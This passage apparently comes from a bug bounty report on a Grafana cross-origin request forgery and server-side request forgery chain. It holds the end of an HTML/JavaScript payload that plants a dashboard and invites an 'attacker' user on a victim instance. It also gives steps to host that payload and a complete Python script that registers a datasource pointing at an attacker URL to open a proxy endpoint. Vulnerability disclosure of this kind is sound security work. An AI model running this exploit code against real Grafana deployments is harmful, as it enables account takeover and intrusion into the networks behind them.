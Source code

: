 ```html
	log_status("[+] Inspect the list of dashboards on your Grafana instance at" + victim_instance +"/dashboards; you should see a new dashboard named `grafana_csrf_0_day`.")
	log_status("[+] Inspect the the list of pending user invitations on your Grafana instance at" + victim_instance +"/org/users; you should see one for `attacker`.")
}

log_status("[*] Starting Attack")
dashboard_poc()
invite_poc()
setTimeout(finish_up, 20000);
</script>
  </body>
</html>
```

Replace the above string `<vic_instance>` to the victims grafana instance url, e.g `https://grafana-xmen.aivencloud.com` .
Now save the edited payload on yout http(s) server as `c-o-payload.html` .

{F1588756}

{F1588755}

{F1588754}

8. Save the below python2 script as `create_ssrf_endpont.py`.

```python
import requests
import random
import string
import sys

if len(sys.argv) != 4 :
    print 'Usage: %s "https://attacker-grafana-instance" "http://cross-origin-payload-url" "attacker-grafana-instance-cookie"' % sys.argv[0]
    sys.exit()

def rand_genarator(length):
    return ''.join(random.choice(string.ascii_letters + string.digits) for i in range(length))

def create_ssrf(url_, payload_url, cookie):
    url = url_.strip("/") + "/api/datasources"
    cookies = {"redirect_to": "%2F", "grafana_session": cookie}
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0",
        "Accept": "application/json, text/plain, */*",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "application/json"
        }
    json = {
        "access": "proxy",
        "isDefault": False,
        "name": "Prometheus - " + rand_genarator(7),
        "type": "prometheus",
        "url": payload_url
        }
    res = requests.post(url, headers=headers, cookies=cookies, json=json)
    print('[+] SSRF Endpoint {}/api/datasources/proxy/{}'.format(url_.strip("/"), res.json()['id']))

create_ssrf(sys.argv[1], sys.argv[2], sys.argv[3])
```


[grafana]: https://grafana.com/
[samesite]: https://web.dev/samesite-cookies-explained/